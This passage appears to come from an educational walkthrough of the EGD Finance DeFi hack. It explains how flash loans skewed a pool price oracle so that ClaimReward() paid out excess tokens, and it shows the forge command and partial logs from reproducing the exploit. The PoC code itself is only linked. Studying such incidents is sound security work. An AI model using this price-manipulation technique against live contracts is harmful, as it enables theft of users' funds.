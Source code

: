 The underlying mechanism is such that, from the second flash loan the attacker borrowed a large amount of USDT, therefore influencing the pool price based on the x * y = k formula. Before returning the loan, the getEGDPrice() will be incorrect.

Reference diagram:

![alt_text](images/image12.png "image_tooltip")


Conclusion: The attacker used a flash loan to alter the liquidity of the EGD/USDT trading pair, resulting in ClaimReward() getting an incorrect price, allowing the attacker to obtain an obscene amount of EGD tokens.

Finally, the attacker exchanged EGD Token using Pancakeswap for USDT, thus profiting from the attack.


---

Now that we’ve fully understood the attack, let's reproduce it:

Step4. Write the PoC code for the attack

Click to show the code

Step5. Write the PoC code for the second flash loan using the exploit

Click to show the code

Execute the code with forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv. Pay attention to the change in balances.

[DeFiHackLabs - EGD-Finance.exp.sol](https://github.com/finn79426/DeFiHackLabs/blob/main/src/test/EGD-Finance.exp.sol)

Running 1 test for src/test/EGD-Finance.exp.sol: Attacker

[PASS] testExploit() (gas: 537204)

Logs:

  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------

  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8

  Attacker Stake 10 USDT to EGD Finance

  -------------------------------- Start Exploit ----------------------------------

  [Start] Attacker USDT Balance: 0.000000000000000000

  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567

  [INFO] Currently earned reward (EGD token): 0.000341874999999972

  Attacker manipulating price oracle of EGD Finance...

  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve

  Flashloan[1] received

  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
